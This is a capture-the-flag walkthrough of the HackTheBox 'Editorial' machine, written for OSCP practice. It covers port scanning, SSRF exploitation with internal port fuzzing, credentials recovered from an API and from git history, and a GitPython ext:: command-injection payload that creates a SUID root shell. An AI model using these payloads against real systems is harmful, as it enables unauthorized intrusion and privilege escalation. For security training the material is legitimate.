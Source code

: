 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Editorial machine Walkthrough"
date: "2025-01-25"
description: " "
tags: ["Hackthebox", "CVE","OSCP-Preparation", "Machine-Walkthrough"]
cover:
    image: "/writeups/Editorial-HackTheBox/Cover.png"
ShowToc: true
TocOpen: false
---
```




## Enumeration

### Scanning with nmap
All port scanning is being perform with the following command:

```
nmap -p- --min-rate 2500 10.10.11.20 -oN allports.txt
```

The following shows the result of the command:

![](/writeups/Editorial-HackTheBox/1.png)

It shows port 22, 80 as open. In order to find the version of services, service version enumeration is being performed with the following command. 

```
nmap -p 22,80 10.10.11.20 -sC -sV -O -oN serviceVersion.txt
```

![](/writeups/Editorial-HackTheBox/2.png)



As the web server is running, so the website is being browsed and the following is the hosted web server. 
![](/writeups/Editorial-HackTheBox/3.png)




The following email found, but it was of no use.  
submissions@tiempoarriba.htb

### Directory Enumeration: 

Dirsearch is being used for enumerating all the available directories in the target server.

Command:
```
dirsearch http://editorial.htb/
```

![](/writeups/Editorial-HackTheBox/4.png)
As shown, the two directories `/about` and `/upload` are being found.

The `/upload` directory has a form to upload the book information. 
![](/writeups/Editorial-HackTheBox/5.png)

Tried the file upload vulnerability in the file upload. But it is not rendering the uploaded file in the web page, instead, it is serving the uploaded file for downloading. 

There's another option to upload the URL of the book cover. This feature has an SSRF vulnerability. 
This can be confirmed by running a `nc` listener, and sending request to our own listener in the book cover URL as shown below:
![](/writeups/Editorial-HackTheBox/6.png)


A request can be sent to the internal server to get information from there. So, a request is being sent to `127.0.0.1:80` as shown:

It takes a bit of time, and responded with a jpeg file. For enumerating other ports, I tried enumerating a few other ports, but all were giving the same jpeg file as shown:
![](/writeups/Editorial-HackTheBox/7.png)


### Enumerating the Open Ports in the Internal Server with FFUF:

Replaced the port number in burp with `FUZZ` as shown below:
![](/writeups/Editorial-HackTheBox/8.png)

Saved the burp request in file called `req.txt` and run ffuf with the following command:

```
ffuf -request req.txt -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
```

This will use the req.txt to fuzz the port with the wordlist of sequence from 1 to 65535 and will not show all the responses containing the regex `1630734277837_ebe62757b6e0.jpeg`. 

Port 5000 was sending a different response. That means, this port is open. 

Sent request to port 5000 as shown below:
![](/writeups/Editorial-HackTheBox/9.png)

It gave me a URL to download a file. 

![](/writeups/Editorial-HackTheBox/10.png)

The file contains a list of end points. I sent request to the `/api/latest/metadata/messages/authors` endpoint, which again gave ma another URL. I visited that URL and got a password of `dev` user as shown:
![](/writeups/Editorial-HackTheBox/11.png)

### Getting Access of the Machine

The password was used to get access of the machine through SSH as the `dev` user. 

### Literal Movement:

The `apps` directory has a .git directory, which contains the different version of the code. 

There were different files which were stagged but not committed as shown:

Command Used:
```
git status
```

![](/writeups/Editorial-HackTheBox/12.png)

The log of git showed interesting commit with message `downgrading prod to dev`:
Command Used:
```
git log
```

![](/writeups/Editorial-HackTheBox/13.png)


This commit is being shown with the command:

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

![](/writeups/Editorial-HackTheBox/14.png)

This showed the password of `prod` user as shown. 

### Privilege Escalation

There's an script, which the prod user can run as the root user as shown:
![](/writeups/Editorial-HackTheBox/15.png)

The following is the content of file:
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Here, the git module has the vulnerability. I searched about python git priv esc and got this:
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

The following can be supplied as the argument to the script for executing command as root:
```
ext::sh -c touch% /tmp/pwned
```

This will create `/tmp/pwned`. 
So, in order to exploit this i run this command, which will copy the root shell and will set its suid bit, we can use that shell later to get root access. 

```python
ext::sh -c cp /bin/bash /tmp/bash; chmod +s /tmp/bash

# we have to add % before each space so it will be like this

ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash

# The final payload will be:

/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash'
```

The following shows the result of this command:

![](/writeups/Editorial-HackTheBox/1.png)
It displayed some kind of error, but we can ignore that as our code executed already. 
I used the following command to interact with the shell and get access as root:
```
/tmp/bash -p
```


Hence, the machine is ROOTED!

